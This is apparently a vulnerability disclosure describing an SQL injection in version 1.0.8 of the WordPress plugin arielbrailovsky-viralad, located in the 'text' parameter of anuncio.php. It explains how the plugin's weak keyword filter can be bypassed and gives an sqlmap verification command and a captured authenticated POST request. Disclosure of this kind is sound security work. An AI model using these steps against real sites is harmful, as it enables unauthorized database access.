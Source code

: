 ### The data insertion interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: insert records

**Injection parameters**: text

**Request method**：POST

**Complete vulnerability trigger related interfaces and parameters**：[/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php]、[id=&text=123&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.43691213689929764&security=ep15x3ftubo8dsycv7r4]

#### 1.Vulnerability analysis

In the anuncio.php file, when the request method is post and the request parameter action is empty, the incoming id, text and other parameters will be directly obtained and processed by the limpia function. If the database does not contain the record, it will be directly spliced into the insert sql statement to perform the record update operation.

![image-20250302204131906](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302204131906.png)

However, the limpia function only performs simple keyword filtering, which can be bypassed by attackers (such as uppercase and lowercase, keyword replacement, blind injection, etc.).

![image-20250302203943402](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302203943402.png)

Therefore, attackers can easily construct malicious sql injection payloads for exploitation.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
POST /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php HTTP/1.1
Host: wp3:82
Content-Length: 230
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://wp3:82
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close

id=&text=123&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.43691213689929764&security=ep15x3ftubo8dsycv7r4
```



![image-20250302203816868](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302203816868.png)